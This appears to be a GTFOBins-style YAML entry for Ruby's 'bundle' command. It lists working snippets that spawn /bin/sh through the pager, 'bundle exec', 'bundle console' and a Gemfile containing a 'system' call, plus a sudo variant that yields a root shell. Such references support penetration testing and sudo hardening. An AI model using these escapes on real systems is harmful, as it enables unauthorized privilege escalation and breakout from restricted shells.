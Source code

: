 ```yaml
---
functions:
  shell:
    - description: This invokes the default pager, which is likely to be  [`less`](/ptbins/less/), other functions may apply.
      code: |
        bundle help
        !/bin/sh
    - code: |
        export BUNDLE_GEMFILE=x
        bundle exec /bin/sh
    - code: |
        TF=$(mktemp -d)
        touch $TF/Gemfile
        cd $TF
        bundle exec /bin/sh
    - description: This spawns an interactive shell via [`irb`](/ptbins/irb/).
      code: |
        TF=$(mktemp -d)
        touch $TF/Gemfile
        cd $TF
        bundle console
        system('/bin/sh -c /bin/sh')
    - code: |
        TF=$(mktemp -d)
        echo 'system("/bin/sh")' > $TF/Gemfile
        cd $TF
        bundle install
  sudo:
    - description: This invokes the default pager, which is likely to be  [`less`](/ptbins/less/), other functions may apply.
      code: |
        sudo bundle help
        !/bin/sh
---
```

